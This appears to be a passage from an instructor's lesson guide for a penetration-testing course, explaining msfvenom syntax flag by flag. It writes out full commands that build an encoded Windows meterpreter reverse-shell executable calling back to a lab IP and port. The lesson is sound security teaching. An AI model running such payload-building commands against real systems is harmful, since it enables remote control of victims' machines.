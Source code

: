      - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.

#### Msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Break down the syntax:

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: The architecture we will use; the default is `x86`
      - `-e x86/shikata_ga_nai`: The encoder we will use
      - `-f exe`: The file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, display the command that we used in the previous lesson, and have students break it down themselves: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type


Explain that in the activity that follows, students will build a custom command in an exploitation attack.

Pause to answer any questions before proceeding.
